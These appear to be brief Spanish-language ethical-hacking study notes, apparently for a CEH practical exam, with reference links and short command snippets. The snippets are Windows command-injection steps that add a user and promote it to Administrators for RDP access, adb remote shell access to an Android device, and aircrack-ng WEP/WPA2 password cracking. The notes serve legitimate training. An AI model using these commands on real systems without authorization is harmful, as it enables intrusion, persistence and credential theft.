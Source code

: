> Estas son algunas referencias que me parece interesante tener en cuenta

### https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### https://www.invicti.com/learn/remote-code-execution-rce/

### https://swisskyrepo.github.io/InternalAllTheThings/

### https://github.com/Creanyx0/CEHv12-practical-Notes/blob/main/Elisa-Alises-NotesCEHv12.md

### https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/active-directory-pentesting/hacking-active-directory-environment/enumeration.md

<br>

### Command Injection

``net user``  (Find users)
 		       
``dir C:\`` (directory listing)

``net user Test/Add``  (Add a user)

``net user Test``      (Check a user)

``net localgroup Administrators Test/Add``   (To convert the test account to admin)

``net user Test``      (Once again check to see if it has become administrator) *Now you can do a RDP connection with the given ip and the Test account which you created.*

<br>

### Conexion a Android

```adb connect IP:5555```    (Connect adb with parrot)

```adb shell```

<br>

### Cracking Wifi Password

```aircrack-ng [pcap file]``` **For cracking WEP network**

```aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file]``` **For cracking WPA2 or other networks through the captured .pcap file**

### IOT

Tener presente que el protocolo es MQTT

### Busqueda de Archivos

```dir /b/s “nombra_archivo*”``` En windows

```find . / -name <NombreArchivo*> 2>/dev/null``` En linux
